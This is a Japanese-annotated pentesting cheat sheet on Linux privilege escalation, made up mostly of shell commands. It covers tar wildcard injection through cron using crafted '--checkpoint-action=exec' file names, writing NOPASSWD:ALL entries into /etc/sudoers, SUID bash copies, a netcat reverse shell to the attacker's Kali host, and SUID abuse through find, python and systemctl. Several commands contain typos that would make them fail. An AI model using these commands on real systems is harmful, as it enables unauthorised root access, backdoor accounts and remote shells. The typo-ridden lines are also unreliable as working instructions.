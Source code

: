 # WildCard Injection

* Cron
  * sudoers

    ``` shell
        echo 'echo "vuln ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers' > <cronに使用されているファイル>
    ```

  * wiledcard injecion
  
    ``` shell
        #tar .... /*を利用
        #tarの圧縮ディレクトリで実行
        echo '#!/bin/bash\ncmod +s /bin/bash' > shell.sh
        #または
        echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > shell.sh
        #もしくはこれでもいい。
        echo 'echo "kali ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > shell.sh
        # exec=のあとに任意のコマンドを実行できる
        echo "" > "--checkpoint-action=exec= sh shell.sh"
        echo "" > --checkpoint=1
        # 攻撃側の端末で実行するとrootが取れる
        /bin/bash -p
    ```

    ``` shell
        #wildcard injection でのrevearse shell
        echo "#!/bin/bash" > shell.sh
        echo "nc <kaliのip> <port> -e /bin/bash" >> shell.sh
        touch -- '--checkpoint=1'
        touch -- '--cheackpoint-action=exec=sh shell.sh'
    ```

* findで権限昇格

    ``` shell
        find / -type f -perm -u=s 2/dev/null
        #または
        find . -exec /bin/bash -p \; -quit
    ```

* pythonで権限昇格

    ``` shell
        python -c 'import os;os.system("/bin/sh -p")'
    ```

* SUID

``` shell
    #install -mでモード指定
    sudo install -m =xs $(which systemctl) .
    #serviceの作成
    TF=$(mktemp).service
    echo '[Service]
    Type=oneshot
    ExecStart=/bin/sh -c "id > /tmp/output"
    [Install]
    WantedBy=multi-user.target' > $TF
    #リンクの生成
    ./systemctl link $TF
    #サービスの有効化
    ./systemctl enable --now $TF
```
